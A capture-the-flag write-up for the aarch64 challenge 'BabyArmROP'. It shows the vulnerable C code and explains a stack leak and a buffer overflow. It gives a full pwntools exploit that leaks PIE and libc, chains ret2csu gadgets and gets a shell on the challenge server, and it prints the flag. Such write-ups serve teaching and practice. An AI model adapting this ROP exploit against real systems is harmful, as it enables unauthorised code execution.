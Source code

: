 # BabyArmROP [738]
Can u take baby steps with your arms?

flag location : /vuln/flag

`nc pwn.zh3r0.cf 1111`

Files: `BabyArmROP`

```python
[*] 'vuln'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO     (!)
    Stack:    No canary found   (!)
    NX:       NX enabled
    PIE:      PIE enabled
```

Author - codacker

## Solving
Not a whole lot to say for this challenge.
```c
void vuln() {
    char name_buffer[0x20];
    read(0, name_buffer, 0x1f);
    printf("Hello, %s\n; send me your message now: ", name_buffer);
    fflush(stdout);
    read(0, name_buffer, 0x200);
}

int main() {
    printf("Enter your name: ");
    fflush(stdout);
    vuln();
    return 0;
}
```
The first observation to make is that `read(0, buf, ...); printf("... %s ...", buf);` allows for data leaks from the stack, because `read()` doesn't nul-terminate strings. Debugging && menial labour eventually demonstrates that the only pointers leakable from (the first pass of) `vuln()` are PIE addresses.

The other obvious bug in the program is the long, 0x200 byte buffer overflow (with no stack canary). Unlike x86 BOFs, the buffer overflow here will only modify the return pointer of the stack frame _below_ the current stack frame. Which is to say, the BOF in `vuln()` will only affect the return pointer for `main()`. This trait is slightly interesting, because it opens the possibility for a partial overwrite of `__libc_start_main_ret` to a `one_gadget`.

In this case, `C.symbols['__libc_start_main'] == 0000000000020c40` but the best `one_gadget` is `0x64178 == execl("/bin/sh", x1)`, so a partial overwrite doesn't really work out. Instead, ROP will have to be used for this challenge.

I spent a while looking for interesting gadgets, but I mostly discovered nothing of value. In the end, I ended up making an aarch64 implementation of ret2csu, as I'm sure most other participants did.

```python
from pwnscripts import *
context.binary = './vuln'
context.libc = 'lib/libc.so.6'
r = remote('pwn.zh3r0.cf', 1111)
E,C = context.binary, context.libc
E.symbols['csu1'] = 0x920
E.symbols['csu2'] = 0x900
E.symbols['main_ptr'] = 0x10Fd8

r.sendafter('Enter your name: ', 'a'*7+'\n') # add 8 characters to leak PIE. afaik libc cannot be leaked here; the first 8 bytes are a QEMU address && later bytes are also PIE
r.recvline() # 'Hello, aaaaaaa'
E.address = u32(r.recv(4))-0x8a8 # e.g. 17e618a8 vs 17e61000

def csu(w0=E.got['printf'], x1=0, x2=0, call=E.got['printf'], x30=0x12345678):
    R = ROP(E)
    R.raw(b'A'*0x28) # padding required for RIP control
    R.csu1()
    R.raw(fit(
        0x29, # x29
        E.symbols['csu2'], # x30
        0,    # x19 -> x19+1
        1,    # x20
        call, # x21
        w0,   # x22 -> w0
        x1,   # x23 -> x1
        x2,   # x24 -> x2
    ))
    R.raw(fit(
        0x29, # x29
        x30,  # x30
        0x19, # x19 -> x19+1
        0x20, # x20
        0x21, # x21
        0x22, # x22 -> w0
        0x23, # x23 -> x1
        0x24, # x24 -> x2
    ))
    return R.chain()

r.sendafter('now: ', csu(x30=E.symbols['main']))
C.symbols['printf'] = u32(r.recv(4))
r.sendafter('Enter your name: ', b'hi')
r.sendafter('now: ', csu(x1=0, x30=C.select_gadget(2)))

r.sendline('cat /vuln/flag')
print(r.recvuntil(b'}'))
```
This was a really boring method, but it got the job done.
## Flag
`zh3r0{b4by_aaarch64_r0p_f04_fun_4nd_pr0fit}`
